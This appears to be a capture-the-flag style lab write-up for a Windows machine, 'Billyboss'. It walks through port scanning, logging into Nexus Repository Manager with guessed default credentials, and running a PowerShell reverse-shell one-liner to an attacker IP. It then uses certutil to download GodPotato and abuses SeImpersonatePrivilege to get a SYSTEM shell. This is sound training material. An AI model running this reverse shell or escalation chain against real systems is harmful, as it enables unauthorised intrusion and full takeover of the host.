

# Billyboss

**Attack Box:** Windows

## Service Enumeration

**IP Address:** 192.168.200.61

```bash
└─$ nmap -sCV -T4 -p- 192.168.200.61 -oN Billyboss_scan.txt

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: BaGet
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8081/tcp  open  http          Jetty 9.4.18.v20190429
|_http-title: Nexus Repository Manager
|_http-server-header: Nexus/3.21.0-05 (OSS)
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-06-11T02:39:59
|_  start_date: N/A
```

**NOTES:**

- FTP on port 21
- HTTP Microsoft IIS on port 80
- SMB on ports 139 & 445
- HTTP Jetty on port 8081

## Port 21: FTP

When attempting to login to FTP, an error is returned requiring the access of SSL.

```bash
└─$ ftp 192.168.200.61                                                                                
Connected to 192.168.200.61.
220 Microsoft FTP Service
Name (192.168.200.61:lhotse): anonymous
534 Policy requires SSL.
ftp: Login failed
```

Attempting to connect using `lftp` also does not work.

```bash
└─$ lftp -e "set ftp:ssl-force true; set ssl:verify-certificate false" -u anonymous,anonymous 192.168.200.61
lftp anonymous@192.168.200.61:~> ls
ls: Login failed: ftp:ssl-force is set and server does not support or allow SSL
```

## Port 80: HTTP Microsoft IIS

The site is running a web service named “BaGet”.

[https://loic-sharma.github.io/BaGet/](https://loic-sharma.github.io/BaGet/)



Nothing useful can be found when researching this service and the name against known vulnerabilities.

The ability to view the endpoints as JSON are also possible.

```bash
http://192.168.202.61/v3/index.json
```


### Directory Fuzz

```bash
└─$ ffuf -c -w ~/Tools/Wordlists/Dirfuzz/raftl.txt -u http://192.168.202.61/FUZZ -e php,html,txt -fs 2166
```

## Port 8081: HTTP Jetty

`Jetty 9.4.18.v20190429`

The site is running a repository manager. The name and service version is available to view.

`Sonatype Nexus Repository ManagerOSS 3.21.0-05`


There is also a sign in feature accessible through the top right of the page. Attempting the credentials `admin:admin` does not allow access.


There is a vulnerability for the current version found when searching the name and version on searchsploit. For this exploit to run, credentials are required.

[https://nvd.nist.gov/vuln/detail/CVE-2020-10199](https://nvd.nist.gov/vuln/detail/CVE-2020-10199)


### Directory Fuzz

Running a directory fuzz does not reveal any other paths of exploitation.

```bash
└─$ ffuf -c -w ~/Tools/Wordlists/Dirfuzz/raftl.txt -u http://192.168.195.61:8081/FUZZ -e php,html,txt
```

After trying random passwords, the login was successful as the user `nexus:nexus` .

Its important to now update the exploit file with the correct commands and credentials. The reverse shell uses the PowerShell “execute” (`-e`) command and a base64 encoded shell.

```bash
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.167",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Before executing the Python payload, ensure the Netcat listener is running and the required port is open to allow the connection.

```bash
└─$ rlwrap nc -lvnp 4444
```

Executing the payload returns a shell.


## Shell as `billyboss\nathan`

### local.txt

```powershell
PS C:\Users\nathan> cd Desktop
PS C:\Users\nathan\Desktop> dir

    Directory: C:\Users\nathan\Desktop

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/18/2026   9:33 AM             34 local.txt                                                             

PS C:\Users\nathan\Desktop> type local.txt
6a88dd***d4e41
PS C:\Users\nathan\Desktop> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.222.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.222.254
```

## Privilege Escalation

User privilege and group information:

```powershell
PS C:\Users\nathan\Nexus\nexus-3.21.0-05> whoami                                                                                                                                             
billyboss\nathan                                                                                                                                                                             
PS C:\Users\nathan\Nexus\nexus-3.21.0-05> whoami /priv                                                                                                                                       
                                                                                                                                                                                             
PRIVILEGES INFORMATION                                                                                                                                                                       
----------------------                                                                                                                                                                       
                                                                                                                                                                                             
Privilege Name                Description                               State                                                                                                                
============================= ========================================= ========                                                                                                             
SeShutdownPrivilege           Shut down the system                      Disabled                                                                                                             
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                                                                                                              
SeUndockPrivilege             Remove computer from docking station      Disabled                                                                                                             
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                                                                                                              
SeCreateGlobalPrivilege       Create global objects                     Enabled                                                                                                              
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled                                                                                                             
SeTimeZonePrivilege           Change the time zone                      Disabled              
PS C:\Users\nathan\Nexus\nexus-3.21.0-05> whoami /groups                                      
                                                                                              
GROUP INFORMATION                                                                             
-----------------                                                                             
                                                                                              
Group Name                           Type             SID          Attributes                 
==================================== ================ ============ ==================================================                                                                        
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group                                                                        
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group                                                                        
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group                                                                        
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group                                                                        
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group                                                                        
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group                                                                        
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group                                                                        
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group                                                                        
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group  
Mandatory Label\High Mandatory Level Label            S-1-16-12288
```

System information displayed using `systeminfo` :

```powershell
PS C:\Users\nathan> systeminfo

Host Name:                 BILLYBOSS                                                                                                                                                  [0/179]
OS Name:                   Microsoft Windows 10 Pro                                           
OS Version:                10.0.18362 N/A Build 18362                                         
OS Manufacturer:           Microsoft Corporation                                              
OS Configuration:          Standalone Workstation                                             
OS Build Type:             Multiprocessor Free                                                
Registered Owner:          nathan                                                             
Registered Organization:                                                                      
Product ID:                00331-10000-00001-AA774                                            
Original Install Date:     5/25/2020, 8:59:14 AM                                              
System Boot Time:          8/2/2024, 12:47:21 PM                                              
System Manufacturer:       VMware, Inc.                                                       
System Model:              VMware7,1                                                          
System Type:               x64-based PC                                                       
Processor(s):              1 Processor(s) Installed.                                          
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2650 Mhz    
BIOS Version:              VMware, Inc. VMW71.00V.21100432.B64.2301110304, 1/11/2023          
Windows Directory:         C:\Windows                                                         
System Directory:          C:\Windows\system32                                                
Boot Device:               \Device\HarddiskVolume2                                            
System Locale:             en-us;English (United States)                                      
Input Locale:              en-us;English (United States)                                      
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)                             
Total Physical Memory:     2,047 MB            
Available Physical Memory: 320 MB                                                             
Virtual Memory: Max Size:  4,849 MB                                                           
Virtual Memory: Available: 562 MB                                                             
Virtual Memory: In Use:    4,287 MB                                                           
Page File Location(s):     C:\pagefile.sys                                                    
Domain:                    WORKGROUP                                                          
Logon Server:              N/A                                                                
Hotfix(s):                 6 Hotfix(s) Installed.                                             
                           [01]: KB4552931                                                    
                           [02]: KB4497165                                                    
                           [03]: KB4497727                                                    
                           [04]: KB4537759                                                    
                           [05]: KB4552152                                                    
                           [06]: KB4540673                                                    
Network Card(s):           1 NIC(s) Installed.                                                
                           [01]: vmxnet3 Ethernet Adapter                                     
                                 Connection Name: Ethernet0                                   
                                 DHCP Enabled:    No                                          
                                 IP address(es)                                               
                                 [01]: 192.168.222.61                                         
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### SeImpersonatePrivilege is Enabled

To exploit this privilege in newer Window's systems, the vulnerability can be exploited using a script named “GodPotato”. Below are the service versions shown on the GitHub repository,

“Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11”

[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

Checking the registry using the following query shows the version “Net Framework” is running. This confirms the use of “GodPotate-NET4.exe”.

```powershell
PS C:\Users\nathan> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\CDF
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4.0
```

Downloading the file to my system and hosting it to an accessible web server in the network.

```bash
└─$ python3 -m http.server 80
```

Once the server is up and running, the “certutil” command downloads the file across.

```powershell
PS C:\Users\nathan\Documents> certutil -f -split -urlcache http://192.168.45.167/GodPotato-NET│
4.exe                                                                                         │
****  Online  ****                                                                            │
  0000  ...                                                                                   │
  e000                                                                                        │
CertUtil: -URLCache command completed successfully.
```


## RCE as `NT AUTHORITY\SYSTEM`

```powershell
PS C:\Users\nathan\Documents> ./GodPotato-NET4.exe -cmd "cmd /c whoami"                       │
[*] CombaseModule: 0x140711670317056                                                          │
[*] DispatchTable: 0x140711672659552                                                          │
[*] UseProtseqFunction: 0x140711672027584                                                     │
[*] UseProtseqFunctionParamCount: 6                                                           │
[*] HookRPC                                                                                   │
[*] Start PipeServer                                                                          │
[*] CreateNamedPipe \\.\pipe\fd2d038c-1993-42b9-81ec-2c18bb0051a1\pipe\epmapper               │
[*] Trigger RPCSS                                                                             │
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046                                       │
[*] DCOM obj IPID: 0000fc02-1378-ffff-2d91-40ecc96ff240                                       │
[*] DCOM obj OXID: 0x835cad6663c9eee4                                                         │
[*] DCOM obj OID: 0x196bc92e47a7584d                                                          │
[*] DCOM obj Flags: 0x281                                                                     │
[*] DCOM obj PublicRefs: 0x0                                                                  │
[*] Marshal Object bytes len: 100                                                             │
[*] UnMarshal Object                                                                          │
[*] Pipe Connected!                                                                           │
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE                                                 │
[*] CurrentsImpersonationLevel: Impersonation                                                 │
[*] Start Search System Token                                                                 │
[*] PID : 840 Token:0x764  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation        │
[*] Find System Token : True                                                                  │
[*] UnmarshalObject: 0x80070776                                                               │
[*] CurrentUser: NT AUTHORITY\SYSTEM                                                          │
[*] process start with pid 5116 
```

Attempting the previously used base64 encoded shell does not work. Instead, a copy of netcat is uploaded to use. The precompiled script can be found here:

[https://github.com/int0x33/nc.exe/](https://github.com/int0x33/nc.exe/)

```powershell
PS C:\Users\nathan\Documents> dir                                                             │                                               
                                                                                              │C:\Users\Administrator>cd desktop              
                                                                                              │cd desktop                                     
    Directory: C:\Users\nathan\Documents                                                      │                                               
                                                                                              │C:\Users\Administrator\Desktop>dir                                                            
                                                                                              │dir                                                                                           
Mode                LastWriteTime         Length Name                                         │ Volume in drive C has no label.                                                              
                                                                                              │ Volume Serial Number is EACB-9845      
----                -------------         ------ ----                                         │                                                                                              
                                                                                              │ Directory of C:\Users\Administrator\Desktop
-a----        6/18/2026  10:10 AM          57344 GodPotato-NET4.exe                           │
                                                                                              │05/09/2022  04:47 AM    <DIR>          .
-a----        6/18/2026  10:16 AM          45272 nc64.exe
```

Running the listener using “`rlwrap`” and Netcat.

```bash
└─$ rlwrap nc -lvnp 4445                                                                     
```

Executing the below command using the GodPotato exploit works and a shell as administrator is returned.

```powershell
PS C:\Users\nathan\Documents> ./GodPotato-NET4.exe -cmd "cmd /c C:\Users\nathan\Documents\nc64"
```

## Shell as `nt authority\system`

The shell seems to be broken when responding to basic terminal cmd commands. It does however allow the use of `dir` and `ipconfig` as well as typing out the proof command.


### proof.txt

```powershell
C:\Windows\system32>cd ../../Users/Administrator/Desktop
cd ../../Users/Administrator/Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EACB-9845

 Directory of C:\Users\Administrator\Desktop

05/09/2022  04:47 AM    <DIR>          .
05/09/2022  04:47 AM    <DIR>          ..
05/28/2020  10:35 PM             1,450 Microsoft Edge.lnk
06/18/2026  09:33 AM                34 proof.txt
               2 File(s)          1,484 bytes
               2 Dir(s)   8,964,743,168 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
97fe2***b73f8711082

C:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.222.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.222.254

C:\Users\Administrator\Desktop>
```